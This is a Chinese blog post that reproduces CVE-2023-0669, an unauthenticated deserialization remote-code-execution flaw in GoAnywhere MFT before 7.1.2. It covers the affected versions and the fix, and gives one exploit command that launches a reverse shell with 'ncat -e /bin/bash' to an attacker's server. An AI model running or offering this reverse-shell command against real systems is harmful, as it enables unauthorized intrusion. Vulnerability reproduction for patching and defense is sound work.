

# CVE-2023-0669 GoAnywhereMFT 反序列化漏洞复现 - cHr1s_h - 博客园

> 原文：[`www.cnblogs.com/cHr1s/p/17121157.html`](https://www.cnblogs.com/cHr1s/p/17121157.html)

### 免责声明

文中提到的所有技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途，否则产生的一切后果自行承担，与本文作者无关！

### GoAnywhereMFT

GoAnywhereMFT 是一个管理文件传输的解决方案，它简化了系统、员工、客户和贸易伙伴之间的数据交换。它通过广泛的安全设置、详细的审计跟踪提供集中控制，并帮助将文件中的信息处理为 XML、EDI、CSV 和 JSON 数据库。

### CVE-2023-0669

GoAnywhereMFT 管理端存在反序列化漏洞，攻击者利用该漏洞无需登录便可以远程执行任意命令。漏洞被追踪为 CVE-2023-0669。

### 影响范围

GoAnywhereMFT 小于 7.1.2 版本

### 漏洞复现

工具使用说明：

本地 java 版本：

使用命令反弹 shell：
`java -jar CVE-2023-0669.jar -p http://127.0.0.1:8080 -t http://x.x.x.x/ -c "ncat -e /bin/bash yourvps yourport"`

> 注意：-p 代理 不可不指定，否则会报错，将流量转到 burp 即可

burp 数据包：

工具下载地址：公众号回复 CVE-2023-0669 获取

### 漏洞修复

更新到 7.1.2 版本。